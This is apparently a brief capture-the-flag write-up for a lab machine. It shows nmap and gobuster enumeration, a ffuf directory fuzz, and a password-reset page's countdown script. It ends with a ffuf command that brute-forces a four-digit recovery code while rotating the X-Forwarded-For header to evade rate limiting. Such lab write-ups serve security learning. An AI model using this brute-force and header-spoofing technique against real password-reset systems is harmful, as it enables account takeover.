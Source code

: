 Typical Enumeration stuff
```
nmap/rustscan
gobuster
```

```bash
#Better Directory finding
#Page source gives hint that directories must conform to /hmr_*
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.3.28:1337/hmr_FUZZ -s

logs
```

We find a file called error.logs here
```bash

#Find an email address in the location

tester@hammer.thm

#Looking at the source of the password reset page we see that there is a timer/reset setting once we find a valid email to use. Probably need to keep reseting the timer here
```
*Code block of interest*
```javascript

    <script>
	let countdownv = ;
        function startCountdown() {
            
            let timerElement = document.getElementById("countdown");
			const hiddenField = document.getElementById("s");
            let interval = setInterval(function() {
                countdownv--;
				 hiddenField.value = countdownv;
                if (countdownv <= 0) {
                    clearInterval(interval);
					//alert("hello");
                   window.location.href = 'logout.php'; 
                }
                timerElement.textContent = "You have " + countdownv + " seconds to enter your code.";
            }, 1000);
        }
    </script>
```


`ffuf -w four_digit_numbers.txt -u “http://10.10.3.28:1337/reset_password.php” -X “POST” -d “recovery_code=FUZZ&s=60” -H “Cookie: PHPSESSID=qv3klj8h89g9tpvtq5i1lsoj7o” -H “X-Forwarded-For: FUZZ” -H “Content-Type: application/x-www-form-urlencoded” -fr “Invalid” -s`